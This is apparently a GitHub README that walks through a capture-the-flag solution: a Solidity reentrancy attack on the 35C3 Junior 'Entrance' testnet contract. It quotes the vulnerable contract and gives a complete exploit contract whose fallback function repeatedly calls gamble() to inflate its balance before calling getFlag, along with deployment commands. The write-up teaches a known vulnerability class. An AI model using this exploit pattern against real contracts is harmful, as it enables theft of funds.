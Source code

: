 # ctf-Entrance

Link to challenge: https://junior.35c3ctf.ccc.ac/challenges/ > Of Course >
Entrance.

### Introduction

This repository is the solution to the Junior 35C3CTF Entrance, a Solidity
reentrancy attack. The expl0it is a simple recursion based on the
`msg.sender.call` statement contained in the vulnerable contract.

### The Attack

Right from the get go, when looking at the contract code, one can see that
there is a `getFlag` method in the vulnerable contract. To call it, a player
needs a balance of >= 300.

```
  function getFlag(string memory _server, string memory _port) public {
    require (balances[msg.sender] > 300, "flag");
    emit EntranceFlag(_server, _port);
  }
```

An event is emitted with a `server` and `port` string. Our initial assumption
was that when the event is triggered by someone on the ropsten contract, a
server from the CTF team is listening for these events and will send back the
flag to a listening server the player has to setup.

But first, let's enter the game. To do that a player needs to call a method
called `enter(uint256 _pin)` on the the entrance.sol contract. A pin is needed
and wasn't specified in any of the hints. It's however easy to find in the data
of the [contract creation
transaction](https://ropsten.etherscan.io/address/0x1898Ed72826BEfa2D549004C57F048A95ae0B982#code).

```
  modifier legit(uint256 _pin) {
    if (_pin == pin, "bye") _;
  }

  function enter(uint256 _pin) public legit(_pin) {
    balances[msg.sender] = 10;
    has_played[msg.sender] = false;
  }
```

As we can call `getFlag` only with a balance of 300, we have to gamble with a
function called `gamble()`. Unfortunately, this function only adds 10 to the
player's balance and then doesn't allow the player to play again as
`has_played` is then set to `true`.


```
  modifier onlyNewPlayer {
    require(has_played[msg.sender] == false, "hello");
    _;
  }

  function gamble() public onlyNewPlayer {
    require (balances[msg.sender] >= 10, "gamble");
    if ((block.number).mod(7) == 0) {
      balances[msg.sender] = balances[msg.sender].add(10);
      balance = balances[msg.sender];
      // Tell the sender he won!
      msg.sender.call("You won!");
      has_played[msg.sender] = true;
    } else {
      balances[msg.sender] = balances[msg.sender].sub(10);
    }
  }

```

We can also see that one can only successfully gamble when the `block.number`
is divisible by 7, as otherwise funds are subtracted from the balance of the
player.

With this in mind we were quite confused at first what to do and re-read the
description of the challenge again:

```
Can you enter? Again?
```

So the question is: Can we enter `gamble` again. Turns out we can.  In fact, if
the `msg.sender.call` function doesn't call a valid function, [it defaults to a
so called
fallback-function](https://ethereum.stackexchange.com/questions/42521/what-does-msg-sender-call-do-in-solidity/42585#42585)
that can be defined in a calling contract.

With knowing this, we made the following plan:

- Create a smart contract that has a function `enter` that calls `entrance.enter`
with the given pin `0xbc4f77`
- Check if the current `block.number` is divisible by 7 and if so call `gamble`
- Define a fallback function in our exploit contract that checks if the balance
is less than 300 and if so, call `gamble` again.

After a lot of back and forth and some quite fun but also frustrating hours, we
arrived at the following code:

```
pragma solidity >=0.4.21 <0.6.0;

import "./entrance.sol";
import "./SafeMath.sol";

contract EnterAgain {
    using SafeMath for *;

    uint256 counter = 0;
    address a;

    constructor(address _a) {
        a = _a;
    }

    function enter() {
        uint b = block.number;
        require((b).mod(7) == 0, "wrong block number");
        Entrance entrance = Entrance(a);
        entrance.enter(0xbc4f77);
        entrance.gamble();
        entrance.getFlag("34.254.178.181", "8080");
    }

    function() {
        Entrance entrance = Entrance(a);
        if(entrance.balances(this) <= 300) {
            entrance.gamble();
        }
    }
}
```

In the constructor, we set the address `a` of the vulnerable contract.  In
`enter`, we call `block.number` and check if it's divisible by 7. We then
instanciate the vulnerable contract, call `enter` and `gamble`. We run through
the gambling game by continously falling back to our fallback-function
`function()` to ultimately stop, and call `getFlag`. After the transaction is
confirmed, our netcat server was answered with the flag.

### Installation

```
$ npm i
$ truffle migrate --network ropsten
$ node enter.js
# Run it until your transaction gets included into a block that is divisible by
# 7. Usually this is the case if the current block is divisible by 6.
```

We included several private keys here from a ropsten address. Potentially these
have to be changed or refilled with ether to run the expl0it.


### Tips

- Modify all require statements with a second argument string to know where the
  contract reverts. Additionally, change all `if`s to require with a second
  argument string so that you can debug them better.
- Always debug locally with Ganache and Truffle. It's so much easier than
  deploying live. There is additionally `truffle debug <tx id>` which can be
  very helpful for debugging a transaction step by step.
- If stuck, remove checks from the vulnerable contract to get your script
  passing.  It will really accelerate your workflow.
- Remember that the game can only be played once. So once you call gamble, you
always have to re-deploy your contract.

